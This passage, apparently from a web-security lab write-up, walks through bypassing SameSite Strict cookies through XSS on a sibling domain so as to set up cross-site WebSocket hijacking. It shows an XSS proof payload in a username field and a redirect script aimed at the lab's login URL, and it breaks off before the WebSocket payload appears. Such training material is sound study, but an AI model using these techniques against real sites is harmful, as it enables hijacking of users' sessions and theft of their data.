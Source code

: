 
Using the XSS payload in the username field we get a XSS:

```
<script>alert(1)</script>
```



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/8.png)


This is a POST request but can be changed to GET:



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/9.png)


"As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions"

```
<script>
    document.location = "https://cms-0a29009b04e2e582804fc1f700b800d5.web-security-academy.net/login?username=aa&password=aa";
</script>
```


URL-encode the “Cross-site WebSocket hijacking” payload:
